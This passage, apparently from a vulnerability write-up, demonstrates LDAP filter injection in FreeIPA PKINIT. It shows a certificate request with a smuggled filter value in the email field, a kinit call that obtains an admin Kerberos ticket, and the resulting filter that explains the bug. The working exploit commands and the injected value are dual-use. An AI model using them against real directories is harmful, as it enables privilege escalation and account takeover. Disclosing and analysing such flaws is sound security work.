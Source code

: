 Issue the certificate (this is a *self-service* certificate request,
which FreeIPA allows, subject to CA ACLs):

```shell
$ ipa cert-request naughty.csr \
    --principal alice naughty.csr \
    --certificate-out naughty.pem
  Issuing CA: ipa
  Certificate: MIIEPjCC...
  Subject: CN=alice,O=IPA.TEST 202211171708
  Subject email address: "bogus)(uid=admin)(cn="@ipa.test
  Issuer: CN=Certificate Authority,O=IPA.TEST 202211171708
  Not Before: Tue Nov 29 04:42:58 2022 UTC
  Not After: Fri Nov 29 04:42:58 2024 UTC
  Serial number: 13
  Serial number (hex): 0xD
```

Finally, use the new certificate and key to obtain a TGT **for
`admin`**:

```shell
$ kinit -X X509_user_identity=FILE:naughty.pem,naughty.key admin

$ klist
Ticket cache: KEYRING:persistent:1001:krb_ccache_UnnYkF2
Default principal: admin@IPA.TEST

Valid starting     Expires            Service principal
28/11/22 23:47:44  29/11/22 23:47:44  krbtgt/IPA.TEST@IPA.TEST
```

The exploit succeeds because the unescaped `rfc822Name` value
results in a filter that matches the `admin` user (formatted for
readability):

```
(&
  (|
    (objectClass=krbprincipalaux)
    (objectClass=krbprincipal)
    (objectClass=ipakrbprincipal)
  )
  (|
    (ipaKrbPrincipalAlias=alice@IPA.TEST)
    (krbPrincipalName:caseIgnoreIA5Match:=alice@IPA.TEST)
  )
  (|
    (mail="bogus)
    (uid=admin)
    (cn="@ipa.test)
    (entrydn=CN=alice,O=IPA.TEST 202211171708)
  )
)
```

